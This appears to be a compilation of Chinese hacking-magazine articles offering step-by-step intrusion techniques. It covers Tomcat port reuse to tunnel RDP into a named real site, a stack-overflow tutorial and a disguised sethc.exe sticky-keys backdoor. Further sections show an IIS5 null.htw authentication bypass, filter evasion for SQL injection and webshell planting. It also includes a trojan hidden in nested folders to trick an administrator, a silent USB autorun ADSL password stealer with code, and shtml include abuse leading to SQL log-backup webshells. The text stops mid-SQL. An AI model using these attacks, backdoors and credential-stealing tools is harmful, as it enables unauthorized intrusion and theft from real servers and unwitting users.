最容易想到的方法是在 202.204.80.1 处制作端口映射，但是前提是要控制这个路由器，这可不是说控制就能控制的，所以还得另想办法。既然我们访问 202.204.80.1 的 80 端口自然就能够被转发到 10.0.0.8 的 80 端口上去，如果能够利用这条路是最理想的。经过一番研究，我有一个好消息和一个坏消息要告诉大家。坏消息：IIS6.0 的端口是以独占方式打开的，普通的技术很难实现“复用” IIS6 所开的端口。关于这点的详细介绍，大家可以参看 Baiyunfan 的一个 pdf 文档，下载地址是 `http://www.xfocus.net/projects/Xcon/2005/Xcon2005_Baiyunfan.pdf`。好消息：Apache Tomcat 的端口可以被复用成功。

复用之后该怎么办暂且不提，先来看看是怎么复用的。端口复用的条件：两个程序对端口的监听方式都必须是 `SO_REUSEADDR`，即可被复用方式。经过测试，Tomcat 在启动的时候，如果 Tomcat 想要监听的端口没有被使用，它就会以独占方式监听，而不是我们想要的 `SO_REUSEADDR`，所以我的做法是：

- 把 Tomcat 的服务暂时停止，当然也有一种可能是 Tomcat 不是以服务方式运行的。不管怎样，就是想办法把原来 Tomcat 所监听的端口暂时关闭。简单起见，我只是使用 `system("net stop \"apache tomcat\"")` 来结束 Tomcat 服务。
- 我们的程序以非独占方式监听 Tomcat 原来所监听的端口。注意在程序中设定监听的参数不要让 `x.sin_addr.s_addr = htonl(INADDR_ANY)`，而要 `= inet_addr("192.168.150.130")`，这个 192.168.150.130 是我虚拟机的 IP 地址……关键代码如下：

```c
// SO_REUSEADDR，意思就是，该端口以“可被复用”方式监听
if(setsockopt(s, SOL_SOCKET, SO_REUSEADDR, (char *)&val, sizeof(val))!=0)
{
    printf("error! setsockopt failed!\n");
    return -1;
}
```

- 启动 Tomcat。简单起见，我使用 `system("net start \"apache tomcat\"")` 来启动 Tomcat 服务。因为我们是挂进程方式占用的端口，所以在第 3 步 Tomcat 也能正常启动……


图1

经过测试，发现端口复用后，所有数据都被我们的程序接收到了……下面就是很关键的一步——数据筛选和转发。我们接收到的数据分成两种，一种是正常的 Web 访问，数据包结构类似如下：

```http
GET / HTTP/1.1
Host: www.hackerxfiles.net
User-Agent: Mozilla/5.0 (Windows; U; Windows NT 5.2; zh-CN; rv:1.8.1.1)
Accept: text/xml,application/xml,application/xhtml+xml,text/html;q=0.9,text/plain;q=0.8,image/png,*/*;q=0.5
```

另外一种便是 mstsc 终端服务客户端所发出的数据……


图2

两种数据之间有几个很明显的区别：mstsc 发出的数据一般情况下不会出现 “HTTP” 这四个字符……mstsc 发出的包中必有 “mstshash”……

```c
int flag=0; // 标志变量，判断是否为 HTTP 包
num = recv(ss, buf, 4096, 0);
if (strstr(buf, "HTTP") != NULL) {
    flag = 0;
    if (num > 0) send(sc, buf, num, 0);
    num = recv(sc, buf, 4096, 0);
} else {
    flag = 1;
    if (num > 0) send(sc2, buf, num, 0);
    num = recv(sc2, buf, 4096, 0);
}
if (num > 0) send(ss, buf, num, 0);
```

通过上面的这部分代码，判断了第一个包是否含有 “HTTP”，然后对数据进行转发……8080、3389 分别是 Tomcat 和终端服务监听的端口……程序运行的结果如图3所示。


图3

最后，我就用这个程序来向大家演示一下如何“洞穿内网”……以 `http://www.bmt.hcmut.edu.vn:8080/` 这个网站为例……打开后看到的是 Tomcat 默认页面……

## 黑客研究院

密码 admin（Tomcat 的默认密码是空，如果为空，那么管理员的智商恐怕连公猫都不如了）进入到了 Tomcat 的管理页面，上传 war 压缩包（在前期 X 档案中已经提到过了，不再赘述），得到 jspshell，本以为直接上传我的 28ice.exe 就搞定它了，可结果却让人失望，上传失败，如图5。


其实遇到这种情况很好办，该 exe2bat.vbs 出马了，它是一个能将 exe 文件转成 bat 文件的 vb 脚本。经过转换，输出了 28ice.exe.bat，然后使用 shell 在对方主机上建立一个 28ice.exe.bat，把内容拷过去，运行它，28ice.exe 就被释放出来了，如图6。通过 ipconfig 看到对方只有一个内网 IP 地址 172.28.188.2，正是我想要的验证环境，执行 `28ice 172.28.188.2 8080 3389`，jspshell 会假死一会儿，因为 Tomcat 会被暂停一会儿，当然很快就会恢复。随着命令的执行，对方的大门已经为我们打开了，我们马上使用 mstsc 连接 www.bmt.hcmut.edu.vn:8080，结果如图7所示。


28ice.exe 不仅能用于突破内网，而且还能用于 3389 端口连接有限制的公网主机，通过 8080 端口复用并转发，就可以成功登录对方的 3389 了。

> （文章中涉及到的工具 sniffer.exe、exe2bat.vbs、28ice.exe 及其源代码 28ice.cpp 已经收录在光盘中）

## 小编点评

28度的冰此文写得蛮好的，通过占用端口并且筛选发送数据达到端口复用的目的，希望对于那些遇到内网映射服务的朋友有所帮助。

## 关于缓冲区溢出的介绍和简单应用

今天给大家带来的是一篇关于溢出的“启蒙”文章。溢出是每一个黑客必备的技术，它的重要性就像 SQL injection 技术一样。现在的远程溢出漏洞已经比较少，更多的是关于 ActiveX 控件的本地溢出，小菜们平时使用的大部分网页就是通过溢出执行 ShellCode 来达到让对方中码的目的的。

### 小知识：什么是 ShellCode？

通俗讲，ShellCode 就是一个能给你 Shell 的代码（载荷）。当溢出的字符覆盖某个寄存器中的值，出现 call 或 jmp 跳转到寄存器中保存的地址时，就会跳转到 ShellCode，此时 CPU 就会执行 ShellCode，从而实现黑客的目的。

漏洞溢出其实并不难学，只要你能看懂汇编，会写简单的 C 程序（在这里主要是为了自己写程序测试使用，其实也就是写一点 exploit 什么的），有一个正常的大脑就可以了。

当然，以上只是入门的条件，小菜们想要达到高手的境界还需要不断地努力才行哦。推荐一个网站 `http://www.milw0rm.com`，这里几乎汇集了目前所有的溢出利用源代码，而且差不多都是第一时间出现的 0day，更新也很快，是一个很值得学习的地方。想要学好漏洞溢出，必须打下扎实的理论基础，首先我们来看看内存的分配，计算机内存运行程序的时候分配的区域是三个。

- 程序段区域：这里保存的是程序的代码，不可写。
- 数据段区域：这里保存的是程序开始时声明的静态全局变量，程序开始的时候，程序的静态全局变量就在这里了，原则上不可以写，但是有些弱点能够通过利用系统权限来进行写操作。
- 堆栈区域：程序的动态的、用于计算的局部和临时变量就分配在堆栈里面，这里面也储存了过程调用中压入的返回地址数据，可以写。

那溢出的原理又是什么呢？在编写程序代码的时候，由于程序员使用字符串处理函数（`gets`、`strcpy`……）时，没有对输入字符串长度进行检查，然后我们把这个超长字符串输入给字符串处理函数的参数，这就造成了越界，就会覆盖堆栈中原有元素的值，也就是修改了返回地址。这导致 CPU 去访问一个不存在的地址，结果出错。事实上，我们可以利用这个错误，输入通过精心构造的字符串来使那个不存在的地址变成 ShellCode 的首地址，此时 CPU 就会转而执行我们的 ShellCode 了。

```c
#include <stdio.h>
#include <string.h>

void main()
{
    char a[4], b[4];
    scanf("%s", a);
    printf("a:\n"); gets(a);
    printf("b:\n"); gets(b);
    if (!strcmp(a, "abc") && !strcmp(b, "ABC"))
        printf("\n\n\nAccess");
}
```

`gets()` 和 `strcmp()` 都不检查输入参数大小，在通过 `gets()` 输入超长字符串时会溢出覆盖返回地址。在运行 `strcmp()` 的时候，程序就跳到溢出的字符（被覆盖的地址）那里去了。

打开 radasm（我比较喜欢使用这个），选择“文件”→“新建工程”，编译器选 Cpp，工程类型选择 Console APP。工程名称和工程说明自己随便填写，工程文件夹自己也随便找，然后一直点下一步，双击右边的 cpp 文件（图1），在打开的编辑区里面输入代码。


### 小知识：什么是返回地址？

程序在执行 `call` 调用子程序的时候，会先把当前的地址放到栈里面保存起来，然后跳到子程序。当子程序运行到 `ret` 的时候，就会从栈里面找到之前保存的地址，然后跳回来。这个地址就是返回地址。

以上这一段话很好理解，我们把内存的地址想象成水杯。当我们把水灌满了可是还在灌的时候，水就会溢出来，溅在桌面上。如果桌面上有一只蚂蚁，我们用溢出的水正好淹死了它，我们就达到目的了。事实上，溢出的这部分字符串覆盖的是函数的返回地址，而不是蚂蚁。当 CPU 从堆栈中找返回地址返回到主程序的时候，找到的就是我们覆盖的地址，于是 CPU 就跳到我们准备的 ShellCode 那里执行了。此时主程序（也就是漏洞程序）就被晾在那里，但高手们会在 ShellCode 的末端让 CPU 跳回去继续执行，消除用户怀疑。其实我们中网页的时候，IE 会停顿一阵子，就是这样的原因。好了，我们现在可以实际操作了。

为了让这篇文章的难度降低，我们使用自己写的程序来实践溢出漏洞的利用。以下是会导致溢出的程序代码（为了方便小菜们理解，我加上了注释）：


然后选择按 **Alt+Shift**、**F5** 构建程序，按 **Ctrl+F9** 在 OLLYDBG 里运行（安装 radasm 时已经“带”了，这也是我喜欢使用 radasm 的原因之一）。在 OD 里按下 F7 一路走下去，遇到 call 就按 F8，走到一个 call 我们按 F8 不能走下去的时候（图2），就是程序要求你输入字符串的时候。


图4

a 字符串我们就输入小写的 26 个英文字母，输入完后回车；b 字符串我们就输入大写的 26 个英文字母，输入后同样回车。输入这么长是为了保证它能够溢出。因为当我们调试别的程序时，没有源代码，所以不知道要多少个才够，黑客们经常会输入五六百个字符，更有的牛人输入几千个，够强吧！当然，也不是输入得越多越好，因为输入太多反而不会引起溢出或者溢出失败。

由于这不是本文讨论的范畴，具体的细节大家可以参考别的资料。当两串字符串输入完之后，OD 的代码区就一片空白，这是因为我们跳到了未知地址的缘故，按一下 F7，就会跳出如图3所示的框。


图3

回到 radasm，在工具菜单里打开 ASCII 表，504F4E4D 在 ASCII 里对应的是 PONM。在堆栈中，字符串是反序存储，所以输入 4 个字符，我们可以知道是 b 字符串的 M N O P 覆盖了返回地址。所以我们只要把 MNOP 改为自己希望跳转的地址就可以了。

按照正常情况来看，程序只会让用户输入 a 字符串和 b 字符串一次。当我们把输入的 MNOP 改为程序入口点地址之后，程序就会执行第二遍，再次要求输入 a 字符串和 b 字符串的值。我们看到程序的入口点为 0x0040116F，在堆栈中字符串是反序存储，这就要求我们依次输入 0x6F、0x11、0x40；后面的 0x00 先不管。

在这里我们不输入 0x00 也没关系。因为 NULL 不可输入，程序员在编写 gets() 函数时会把输入的字符串末端加进去一个 NULL，正好表示字符串已经结束了。我们现在看，还有一个 a 字符串空着在这边，实际上可以通过调试知道 a 的缓冲区地址，然后在 a 里直接输入 ShellCode，再通过 b 跳到 a 去，从而直接运行 ShellCode。

怎么确定 a 的缓冲区地址呢？重新载入程序，按之前方法走下去，在原来按 F8 不能走下去的 call 这条指令上按 F7 跟进，我们就来到了这一段代码区：

```c
00401000    PUSH EBP
00401001    MOV EBP,ESP
00401003    PUSH ECX
00401004    PUSH ECX
00401005    PUSH a.0040704C
0040100A    CALL a.0040113E
0040100F    LEA EAX,DWORD PTR SS:[EBP-4]
00401012    PUSH EAX
00401013    CALL a.004010F4
00401018    POP ECX
00401019    POP ECX
```

0x00401013 这个地方调用的是 gets() 函数，那么上面的 PUSH EAX 的意思就是把堆栈的地址压入。我们重新载入程序，在 00401012 上按 F2 下断点，然后按 F9 跑起来，程序会在 00401012 处停下。这时看右上角 EAX 的值，这里是 0012FF7C（图5），不同电脑会不一样。


图5

再按 F2 取消断点之后，我输入几个字符 a（ASCII 码是 61）到目的了。由于后面的思路方法，我也不再多说了。测试了一下，嗯，的确是 0012FF7C（图6）。


所以，0012FF7C 就是保存 a 的数值的堆栈地址。我们只要在输入 a 的时候直接把 ShellCode 写进去，然后跳到这里就还行。

其实网马也是这么调试、编写出来的，没有什么神秘的地方。黑客编写网马的时候，ShellCode 是通过新开辟的一个变量，然后写进这个变量中的。调试的时候黑客也是使用和本文相同方法去溢出操作中的脆弱函数，找到跳转地址在测试串的那部分，然后修改，让程序跳转到 ShellCode 的位置。黑客选择的跳转地址是在 ShellCode 的附近，也可能在 ShellCode 内部，所以 ShellCode 前面会有大量的 nop（几个）来接应，从而保证 ShellCode 的运行。总之它们的道理都是相通的。顺便再提醒一下，调试漏洞是很艰苦的，有时候光是一个漏洞的发掘就要花好几个月的时间，很是需要耐心的。

> （文章中涉及到的工具 radasm 已经收录在光盘中）

## 对粘滞键后门的一些想法

清泉长风


这段时间的粘滞键后门可谓是个热点，对于我等小菜来说可真是个好东西，又多了一个强度比较大的加固网马的方法。本人在使用时也产生了一些想法，现和大家分享一下。

- 1. 自从粘滞键后门被发现以后，网上流行的方法是使用批处理将 sethc.exe 替换成 cmd.exe，当然同时也得将备份文件替换掉，还有的在后门中加入了验证。网上也有一种这样的批处理程序。本人觉得最方便和最稳定的方法莫过于使用压缩还原文件：选中你希望运行的程序，如 CMD.EXE，勾选“创建自解压格式压缩文件”（图1），切换到“高级”，单击“自解压选项”，在解压路径中任意填一个存在的目录，在“解压后运行程序”中填入执行文件的路径（图2），再切换到“模式”，在“安静模式”中勾选“全部隐藏”，在“覆盖方式”中勾选“覆盖所有文件”（图3）。再设置一个密码，如图4，把压缩出来的文件名改成 sethc.exe 并替换掉系统中的 sethc.exe 即可（图5）。


- 2. 上面的方法固然很好地保护了我们的网马，但还不够隐蔽。你想想，时下粘滞键后门这么流行，稍微合格一点的管理员在登录服务器时，按下五次 Shift 键来检查，倘若看到上图中的画面，岂不就露馅了吗？所以我想用一个和正常粘滞键程序界面一模一样的程序来替换原来的 sethc.exe，然后在这个伪装程序的右下角添加一个双击事件，左键双击后就会打开 cmd.exe。经测试，这样的隐藏效果非常好。登录系统时打开粘滞程序窗口后，只需在窗口的右下方双击左键就可以打开 cmd.exe 了（图6）。


小编注：这个后门非常不错哟，经过作者的修改，隐蔽性就更强了，如果杀毒软件不查杀的话，将会是一个很好的东西。

> （文章中涉及到的工具 sethc.exe 已经收录在光盘中）

## 我是如何拿到目标服务器上的敏感文件的

某日，一朋友让我帮忙取一台服务器上的一个文本文件，还把 URL 地址给了我：http://victimip/internat/project-2002.txt。  
当时心里觉得这应该是挺简单的事儿，谁知后来却整整花费了我一个星期的时间才搞定。

既然地址都给出来了，先试试直接使用迅雷下载吧。我们知道迅雷经常能利用自己的连接搜索功能下载一些原来的 URL 地址中本来不存在或现已经无效的资源。可是这次，迅雷没有搜索到其它的资源，如图1。


图1


图3


图4

初战失败，看来偷懒的方法不行呀，还是直接访问 URL 地址看看吧，如图2。从 IE 的提示信息中，我们可以看出 WEB 服务器做了 IP 地址限制，我不属于允许连接的 IP 地址范围。扫描服务器吧，兴许运气好能有个第三方软件的溢出呢。拿出 Nmap 扫描 WEB 服务器的常见端口，Nmap 在 Windows 下的使用没有 Linux 下来得顺手，扫描速度太慢了，等了大概有 1 分半钟左右，结果出来了，看到的是 WEB 服务器肯定配置有防火墙，只开放了 80 和 8080 端口，如图3。


图2

8080 端口是什么服务在运行呢？Nmap 给出的结果是 HTTP 代理，不过不敢肯定。不管那么多了，使用 NC 连接请求下不就知道了吗，如图4。我看到了什么？又是一台 HTTP 代理配置错误的服务器，HTTP 代理没有过滤本地的 127.0.0.1 地址，我轻松地绕过了 WEB 服务器的 IP 地址限制。利用 HTTP 代理的配置错误渗透服务器，我记得以前有篇外国的文章曾做过详细的介绍。


图5

但是通过我对服务器的请求，发现主页的默认页面都是静态的，也没有什么好利用的，服务器就先放过吧。直接请求我要的文本文件，如图5。又是一个打击，服务器对 Internat 目录做了基本会话身份验证，拒绝了我的请求，事情越来越难办了。

我到 BugTraq 以“IIS5”作为关键字进行搜索，看看有没有新的可以利用的漏洞，还真找出来一个“Microsoft IIS Hit Highlighting 绕过访问认证漏洞”，看着给出的测试代码怎么那么眼熟呀，终于想起了利用 HTW 示例脚本读取 ASP 源代码的漏洞的测试代码与此类似，只不过那时候利用的是 HTW 示例脚本作为请求，而现在用的则是 null.htw。

```http
GET http://127.0.0.1:80/null.htw?CiWebhitsfile=/internat/project-2002.txt&CiRestriction=none&CiHiliteType=full HTTP/1.0
```

我解释一下请求的各部分参数：null.htw 调用了 ciwebhitsfile、cirestriction、cihilitetype 处理……null.htw 文件并非真正的系统映射文件，而是存储在系统内存中的虚拟文件……所以请求依然有效！这次突破了 IIS 的基本身份认证限制了，访问到我想要的文件了，如图6。


图6

仔细看安全公告的这句话：“**IIS 的 Webhits.dll 中所提供的 Hit-highlighting 功能仅依赖于 Microsoft Windows NT ACL 配置而不依赖于 IIS 认证配置**”……照此说法，如果 IP 地址的限制是利用 IIS 的 WEB 服务器做的，那么就可以不利用 HTTP 代理，直接使用 IE 请求来绕过 IP 地址的限制了。使用 IE 请求一下，证明了我的想法，如图7。


图7

在新的漏洞面前，这台 WEB 服务器做的种种验证就这样被轻易地突破了，这个漏洞只影响 IIS5.0 服务器。随后我又看了看 IIS 的帮助文件，画出了一个 IIS 验证客户端连接过程时所使用的验证顺序，如图8。


图8


图9


图10


图11

这个图可以用来排查客户端连接 IIS 时的一些权限问题。从图中可以看出 NTFS 权限是最后一道权限关卡，即使利用这个新的漏洞突破了 IIS 的配置，但如果 NTFS 做好了权限配置，也是无法访问到敏感文件的。我在本地实验了一下，新建立一个“Internat”文件夹，删除 Everyone 用户组，如图9，只允许本地的 mickey 用户访问这个文件夹……至此，即使不打 IIS 的补丁，只要配置好 NTFS 的权限，也可以防范此漏洞！

## 黑客研究院

## 注入也玩“特征码”


前段时间利用注入来入侵一个网站，觉得有点意思，因为它跟我们平时的注入有些不太一样。平时我们注入时就是根据返回的错误信息使用手工或工具来进行注入，这次虽然也一样，不过却需要一点技巧。

事情的经过是这样的，有一次想入侵一个网站，主站上全是 HTML 的页面，没什么可以利用的，也找不到后台登录的地方，只能进行旁注了。先找到分站的地址，然后随便找了一个 URL 看看是否存在注入的问题……提示“你的 IP 地址已被记录！”，看来对方应该是使用了防注入程序，如图1。


想了一下，如果把平时那些注入的关键字符改成 URL 字符是不是可以绕过去呢？比如把注入语句中的字符进行编码……我试了试，返回的结果如图2所示。

这样，对方的防注入就歇了，接下来的事情就好办了。先把这个防注入系统的特征码找出来再换成 URL 字符就可以了……例如“and、admin、select、from、where、=、-、order by”等，替换后即可，先来一个表看看吧，如图3。

下面的事情就跟平时的注入一样了，相信大家都会了。目前很多 ASP 系统都使用了防注入程序，也因此很多网络管理员就不注意自身的代码问题了，以为加个防注入程序就万事大吉了，但事实上很多东西都可以绕过去的。

## 锁住点击 助你轻松实现服务器提权


### 一、插马漏洞得 webshell

今天我测试的这个网站使用的是某系统……先在本地搭建一个测试环境，记得数据库连接文件 conn_user.asp 中的数据库不是主数据库，因为在主数据库中有防下载表，而这个数据库里没有。这样的话我们就可以插马了，而且也没有绕码，还能爆库。

```asp
<%
dim UserTableType, Conn_User, db_bbs
UserTableType = "MyPower"
db_bbs = "#e|9con9f6showcn998#d.asp"  '数据库文件的位置
Set Conn_User = Server.CreateObject("ADODB.Connection")
Conn_User.Open "Provider=Microsoft.Jet.OLEDB.4.0;Data Source=" & Server.MapPath(db_bbs)
%>
```

这个文件，代码如下：

```asp
<%
set rs=server.createobject("adodb.recordset")
sql="select * from [bgs]"
rs.open sql,Conn,User,1,3
rs.addnew
bgname=request("bgname")
point=request("point")
if not isnumeric(point) then
  response.write("<script>alert('点数必须是数字');history.go(-1);</script>")
  response.End()
end if
bgintor=Request("bgintor")
rs("bgname")=bgname
rs("point")=point
rs("bgintor")=bgintor
id=rs("id")
rs("bgid")=right("000000"&id,3)
rs.update
response.Redirect("admin_moban.asp")
%>
```


图2

全面扫描了一下，扫描常用的几个端口，发现开了 3306……判断该站点可能支持 php 脚本；但测试 php/aspx 木马均不可用，推测 webshell 所在空间只能使用 asp。随后进入 Documents 目录并尝试查找可利用工具与目录权限。

这个文件并没有对我们的小马产生任何影响，因为这里只判断点数是否为整型而已，所以可在标题输入框中注入一句话木马并上传，得到 webshell，如图1。


### 二、熟悉环境找提权突破口

来看一下今天提权的环境：一个 webshell，权限极低；服务器为虚拟主机，操作系统为 Windows 2000。登录 webshell 后进入站点根目录，测试 cmd/上传执行能力并不理想，需转向其他提权路径。

对手站经常提及使用 Serv-U 提权。先本地连接测试并判断版本，再对主机进行端口扫描，发现常规 Serv-U 端口未开放，故继续进行目录探测与权限测试，寻找可写但不可执行目录及潜在利用点。

- `C:\perl\`：查看是否支持 perl
- `C:\Program Files\Java Web Start\`：查看是否支持 jsp
- `C:\Documents and Settings\`
- `C:\Documents and Settings\All Users\`
- `C:\winnt\system32\inetsrv\data\`：可上传但常不可执行
- `C:\Program Files\`：查看主机安装软件
- `C:\Program Files\Microsoft SQL Server\`
- `C:\Temp\`：通常权限较大

碰到无法直接提权时，可考虑“惯性点击”等社工/后门触发思路，配合系统自带工具与木马服务端进行组合利用。文中随后讨论了服务端生成、免杀与插件化利用等内容。


黑洞都喜欢修改服务名称和描述什么的，不过这里我们不要修改，如图3。木马别忘了制作免杀，但是尽量别加壳。

下面进入本文的中心环节，运行 iexpress，把刚才的两个木马捆在一起，并把捆绑后 exe 的图标改成对应系统文件夹图标。因为目标主机是 Windows 2000 系统，所以只需把 exe 图标改成 Windows 2000 下的文件夹图标即可……最后把这个 exe 文件再加上一层壳，完成后就是成品木马。

上面说了 `c:\winnt\system32\inetsrv\data\` 目录有上传权限，但是不能执行。可在该目录中新建文件夹并命名为“管理员请进”，然后再建立同名文件夹，依次类推。最后在最深层文件夹下放入前面做好的成品并命名为“管理员请进”，使其与前几层文件夹名几乎一致，仅多一个 `.exe`。


然后给管理员发邮件，提示其网站有 bug，详情请见某路径下 txt 文档。按下去就是“惯性点击”了。过一段时间后可通过上线工具查看效果；对方检查服务加载项时会看到“黑洞”服务项，而隐蔽服务项在 Windows 服务管理器下不可见。

> “惯性点击提权”是一种很好用的提权方式（不过也得在迫不得已的情况下来使用，因为成功率不是特别高）。

（文中涉及到的工具 superscan、黑洞1.96国庆版、炽天使远程控制软件已经收藏在光盘中）


## 菜鸟详解 ADSL 密码盗取工具制作过程

我们学校里使用的是校园宽带，不需要自己配置调制解调器，拨号时输入用户名和密码即可。大家可能知道网上有名为“Dialupass”的宽带账户密码读取工具。后来在网上传播时发现，同账号同时登录会报用户名密码错误。


一种办法是通过电信更改账户密码，但这样并不长久。既然有 ADSL 账号密码信息储存，那么可“以其人之道还治其人之身”。

我想到以下几种思路：

- 1. 使用网页木马，诱导点击链接后窃取并上传密码文件。
- 2. 将 `Dialupass.exe` 写入 U 盘，在目标拷贝数据时运行并保存信息。
- 3. 运用“社会工程学”，诱使对方将 U 盘交给你后拷贝数据。

感觉第三种方法最可靠，不易引起怀疑。多数人并不知道 `Dialupass.exe` 可在命令行下使用，误以为只有 GUI 双击运行才能显示 ADSL 信息。

```bash
Dialupass.exe /stext "pass.txt"
```

利用上述命令可结合批处理，直接将对方机器上的 ADSL 信息保存到自己的 U 盘当前目录。接下来需要解决若干细节问题。

- 1. 批处理文件运行时会弹出 CMD 窗口，令人怀疑。  
- 2. 多次运行 `Dialupass.exe /stext "pass.txt"` 会覆盖 `pass.txt`，只能得到一台机器的 ADSL 信息。  
- 3. 生成的 `pass.txt` 可能引起别人怀疑。  

解决的方法如下：使用 WinExec()；利用 `%RANDOM%` 生成随机文件名，避免 `%date%`、`%time%` 带来的限制。示例批处理：`Dialupass.exe /stext "%RANDOM%.txt"`，并保存为 `dog.bat`。

```cpp
#include <iostream>
#include <windows.h>
using namespace std;

int WINAPI WinMain(HINSTANCE hInstance,
                   HINSTANCE hPrevInstance,
                   LPSTR lpCmdLine,
                   int nCmdShow)
{
    WinExec("dog.bat", SW_HIDE);
    return 0;
}
```

编译后将批处理文件和 Dialupass.exe 放在同目录运行（假设程序名为 `dog_.exe`）。进一步可将 bat 内容直接写入 C++，实现一气呵成。将程序放入 U 盘后运行几乎无明显界面，但会在目录下生成保存 ADSL 信息的随机 TXT 文件。

在 U 盘根目录建立隐藏目录（如 `dog`），并修改批处理为 `Dialupass.exe /stext "dog\%RANDOM%.txt"`。可进一步使用 MD 命令建立“不可访问”目录，限制图形界面下打开、删除、复制；在 CMD 下通过特殊方式读写（如 `copy \dog...\*.* data`）。

### 二、程序写好了，需要运行。

结合 INF 文件让别人自动运行程序。利用常见 U 盘病毒式 Autorun 触发方式，提高执行概率。

```ini
[Autorun]
open=dog.exe
```

```ini
shell\Open=打开(&O)
shell\Open\Command=dog.exe
shell\Open\Default=1
shell\explore=资源管理器(&X)
shell\explore\Command=dog.exe
```

以上是 Autorun.inf 的内容，保存到 U 盘根目录。这样插入 U 盘后，无论双击还是右键菜单选择打开，都会执行程序。


图2

### 三、最后的工作——增加整个流程的隐蔽性。

利用 WinRAR 自释放功能，将 `Dialupass.exe`、`dog_.exe` 等整合。双击后自动释放并执行，再删除相关文件，以减少痕迹。

```cpp
#include <iostream>
#include <fstream>
#include <windows.h>
using namespace std;

void dog_bat(){
    ofstream dog;
    dog.open("dog.bat", 2);
    dog << "Dialupass.exe /stext \"%RANDOM%.txt\"\n";
    dog << "...";
}

int WINAPI WinMain(HINSTANCE hInstance,
                   HINSTANCE hPrevInstance,
                   LPSTR lpCmdLine,
                   int nCmdShow)
{
    dog_bat();
    WinExec("dog.bat", SW_HIDE);
}
```

把生成的程序（dog_.exe）和 Dialupass.exe 存放在一起，dog_.exe 加上隐藏属性。同时选中它们，添加到压缩文件，打开压缩文件，选择“自释放”，如图3；再选择“高级自释放选项”，在“常规”项的“释放后运行”栏添加“dog_.exe”，如图4。再来到“模式”选项，选中“全部隐藏”和“覆盖所有文件”，如图5，然后全部确定，最后生成了一个大家都熟悉的压缩文件，如图6。


好了，现在双击它试试（记得在目录下新建一个 `\DOG..\` 的文件夹），是不是什么反应都没有？不过在 `dog..` 这个特殊的文件夹里已经保存了我们想要的信息了哦。我们把 Autorun.inf（设置为隐藏）和自解压程序（设置为隐藏）放在 U 盘根目录下并新建一个文件夹。要注意的是不要把自解压程序名与其解压出来的程序名重叠，否则不能正常解压。这样，当我们把 U 盘借给别人，别人放在计算机上一双击，哈哈，ADSL 账号的密码就到我们的文件夹里了。

> （本文所涉及到的 Dialupass.exe 和相关代码已收录到光盘中）


## 浅谈 IIS 下鲜为人知的扩展——shtml

提起 IIS6，大家都会马上联想到它的目录解析漏洞以及它能解释 ASPX，这对于“黑客”来说好处当然是多多的。那提起 IIS5 呢？可能大家都会觉得它一无是处，尤其是在 ASP 版本动网论坛的后台拿 WEBSHELL 上，一直没有人找出有效的获取方法。但事实上却非如此，在 IIS 下还有一个很危险的扩展，那就是“shtml”。

shtml 是什么？它也是脚本语言，在用法上有点儿像 ASP（只是像那么一点）。如果你要让服务器支持运行 shtml 的话，IIS 就必须要开启 SSI 组件。SSI 组件默认情况下在 IIS5 中是开启的，而在后来的 IIS6 及以后的版本中却是被关闭的，也就是说 IIS5 默认支持解释 shtml，而 IIS6 默认是不支持解释 shtml 的。

为了说明这个扩展的危害性，我们以 BBSXP7 的文件头欺骗上传漏洞为例进行说明，这个漏洞的起因是 BBSXP7 在“上传头像”这个功能上没有过滤 IIS6 下的“ASPX”扩展，因此导致了我们可以直接上传事先伪造好的带有文件头的 ASPX 小马（因为“上传头像”限制了规定上传图片的大小，所以只能使用小马，不能直接使用大马）。

先来判断是否为 IIS5，打开“对 IIS 写权限的利用”这个工具，在“域名”栏填好要检测的网站域名，选择“OPTIONS”，然后点“提交数据包”，根据下方框中返回的信息，可以得知为 IIS 5.0，如图1。

我们再到 BBSXP 论坛注册一个用户，然后来“上传头像”，直接上传 conn.shtml，其内容如下：

```text
gif89a
<!--#include file="../conn.asp"-->
```

其中“gif89a”是 gif 图片格式的文件头，这个 shtml 文件的意思就是显示 BBSXP 的 CONN.ASP 文件内容（CONN.ASP 文件是 BBSXP 的数据库链接文件）。因为 conn.shtml 上传之后会被 BBSXP 自动改名并存放在 `/UpFile/UpFace/` 的相对目录下，所以要使用“../”跳回到论坛目录下来显示 BBSXP 根目录下的 conn.asp 文件。

没有意外的话会上传成功的（直到目前为止，BBSXP 的最新版 2008 依然没有过滤 shtml 扩展）。这时大家不要急着直接使用浏览器打开上传后的 shtml 文件，因为“gif89a”的 gif 图片格式文件头的关系，直接打开的话只会看到如图2所示的返回信息。因为你的浏览器已经把它解释成图片了，所以不能直接使用浏览器打开。

我们还是打开“对 IIS 写权限的利用”这款工具，在“请求文件”栏填写上刚才上传 shtml 文件后 BBSXP 返回的路径：`/upfile/upface/1848.shtml`，“域名”栏仍然是该网站的域名，选择“GET”，然后点击“提交数据包”，如图3。

好了，我们可以发现它的“数据库路径”是“database/bbsxp7.mdb”，也就是说这个 BBSXP 当前使用的是 ACCESS 版本的论坛，我们可以直接下载它的数据库。


到管理员的 MD5 密码，破解出来的话就可以登录论坛后台，至于如何在后台得到 WEBSHELL，可以参照以前的杂志（方法基本上都是大同小异的）。如果这个 BBSXP 论坛是使用 SQL 版本，则可以看到它的数据库连接帐号，直接使用“查询分析器”连接上去 LOG 备份就行了（这个我会在下面一起讲）。


我们再来看看动网，为了安全，动网在最新的 8.2 版本中删除了论坛备份功能，自以为消除了我们拿 WEBSHELL 的方法。接下来我们就以动网 8.0 为例（shtml 扩展在 8.2 版本中也是没有过滤的），使用杂志上以前介绍的动网 8.0 SQL 版本的注入漏洞或获取管理员的密码登录后台（大家也可以通过其它方法来登录到后台），如图4。


选择“版面管理”下的“版面（分类）管理”，随便选择一个版面进行“高级设置”，在“上传文件类型”处添加上“shtml”，如图5。


返回论坛前台，到你刚才设置的那个版面上传 conn.shtml，文件内容为 `<!--#include file="../../conn.asp"-->`。上传完毕后需要“发表”的，返回后台的“文件管理”-“上传文件管理”，在“快速查询”中选择“最近24小时内上传的附件”，找到刚才上传的 shtml 文件，使用浏览器打开，如图6。大家在实际的入侵过程中如果碰到的是 ACCESS 版本就没什么利用价值了（因为我们已经登录了这个论坛的后台了）。因此，我主要说一下 SQL 版本的利用方法，使用“查询分析器”连接刚才显示得到的数据库用户名和密码，进行 LOG 备份，以下 SQL 语句需要 DB 权限以上才能正常执行，如图7。


WEB 路径可以从论坛后台的“系统相关”-“系统信息检测”获得，如果数据库不是分离的话就可以拿到 WEBSHELL 了，如图8、图9。


图8

```sql
alter database DVBBS set RECOVERY FULL  -- 把SQL设为日志完全恢复模式
create table cmd (a image)              -- 新建一个CMD表
